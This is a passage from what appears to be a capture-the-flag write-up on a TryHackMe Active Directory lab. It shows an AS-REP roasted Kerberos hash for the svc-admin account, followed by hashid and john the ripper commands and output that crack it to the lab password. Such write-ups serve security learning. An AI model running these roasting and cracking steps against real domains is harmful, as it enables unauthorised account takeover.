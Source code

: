 let that run and check `$OUTPUT_FILE` for any successful usernames:

```bash
$ cat kerb-user.txt
$krb5asrep$23$svc-admin@THM-AD@THM-AD:58f9aec0401e1853c840af5f369ac610$8efe1b2bb5373788a670aaa6ff41aead7359c0d5530ee970a34a22e54411d646d9bccc30d67efbe06e0774d9b8caf6a227ea8716307d006d937d0dc2bb449558292096b6fa84cedad7201bfc2c3ebe43e1ebf1fb0e1124dbe8089aadd8739683a3e638690eddc4667381457d34537cb5a6093d1f08d3bc04faafc57434d0105d4c00c0c6084af6f88a65a9e0159ae26ff036793bb9501d29003231f68089b4706c9efff58f366cafae0c6b4e08443fe36d9c9e858c6276c263ac76e8dc51bc856887433f33203aaf40053c19a4fecb42b7987a4036dbff228b370f70d3e5acd8c0047f6942a673a5e5
```

:::tip ASREPRoast TIP

If you use the latest version of kerbrute it can do `ASREPRoast` at the same time as evaluating valid usernames.

:::

## CRACK

Use `hashid -jm <hash />` to lookup hash type.

:::tip Hashcat TIP

_Lookup hashchat [examples](https://hashcat.net/wiki/doku.php?id=example_hashes) for all things hash._

:::

Details about our hash:

|Hash-Mode|Hash-Name|Hash|
|:----|:----|:----|
|18200|Kerberos 5, etype 23, AS-REP|`$krb5asrep$23$user@domain.com:3e156a...`|

hash-mode = `18200`

### john the ripper

Let's crack it with `john`: `john --wordlist=$WORDLIST $HASH_FILE`

```bash
─$ john --wordlist=./passwordlist.txt kerb-user.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
management2005   ($krb5asrep$23$svc-admin@THM-AD@THM-AD)
1g 0:00:00:01 DONE (2022-03-15 22:22) 0.9433g/s 6279p/s 6279c/s 6279C/s shearer..amy123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

┌──(kali㉿kali)-[~/…/RxHack/THM/OFFENSIVEPENTESTPATH/ATTACKTIVE]
└─$ john --show kerb-user.txt
$krb5asrep$23$svc-admin@THM-AD@THM-AD:management2005

1 password hash cracked, 0 left
```
